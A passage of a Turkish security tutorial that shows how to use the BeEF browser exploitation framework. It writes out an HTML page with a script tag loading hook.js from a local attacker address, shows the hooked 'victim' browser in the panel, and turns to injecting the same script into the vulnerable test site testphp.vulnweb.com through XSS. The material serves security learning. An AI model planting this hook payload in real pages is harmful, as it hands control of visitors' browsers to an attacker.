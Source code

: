 beef login page

Giriş yaptıktan sonra bizleri artık bu şekilde bir panel karşılamaktadır.

![beef panel](0x08%20614d7d291ebe485c8a749b0367dcb928/Untitled%2010.png)

beef panel

Artık burada bir kurban cihaz seçip ilerlememiz gerekiyor. Burada da kendi bilgisayarımızda bir HTML sayfası oluşturarak yukarıdaki **hook.js** dosyasını çalıştırabileceğimiz bir yapı kuracağız.

> Öncelikle bir HTML dosyası oluşturalım:
> 

```
touch xss.html
```

> Daha sonra oluşturduğumuz bu XSS sayfasına yukarıdaki hook.js’in çalışabileceği bir script verelim.
> 

```
<h1>HACKED BY ANYONE</h1>
<script src= "http://192.168.1.107:3000/hook.js"></script>
```

![Untitled](0x08%20614d7d291ebe485c8a749b0367dcb928/Untitled%2011.png)

> Oluşan bu HTML dosyasını artık tarayıcımızda açtığımızda BEEF Panelimizde ilgili sonuçları görebiliriz.
> 

![XSS zafiyeti olan sayfa](0x08%20614d7d291ebe485c8a749b0367dcb928/Untitled%2012.png)

XSS zafiyeti olan sayfa

> Gördüğünüz üzere sayfamızı açtıktan sonra BEEF panelinde de elde ettiğimiz bilgileri görebiliriz.
> 

![Untitled](0x08%20614d7d291ebe485c8a749b0367dcb928/Untitled%2013.png)

> Açtığımız HTML sayfasını kapattığımızda ise artık offline olarak görünecektir.
> 

![Untitled](0x08%20614d7d291ebe485c8a749b0367dcb928/Untitled%2014.png)

Yani bu araç sayesinde karşımızdaki kişinin browser’ında daha etkili JavaScript kodları çalıştırabiliriz. Dolayısıyla bahsettiğimiz BEEF aracı, burada verdiği hook.js kodlarını kurban cihaz üzerinde çalıştırmamızı istemektedir.

Biz bu aşamada tekrar [test sitemize](http://testphp.vulnweb.com/) giderek alert(1) uyarısı göstermek yerine bu JavaScript dosyasını çalıştırırsak daha etkili sonuçlar elde edebiliriz. Bunun için de başka bir tarayıcıda [test sitemizi](http://testphp.vulnweb.com/) açarak ilgili script’i yazıp aratıyoruz.

![Untitled](0x08%20614d7d291ebe485c8a749b0367dcb928/Untitled%2015.png)
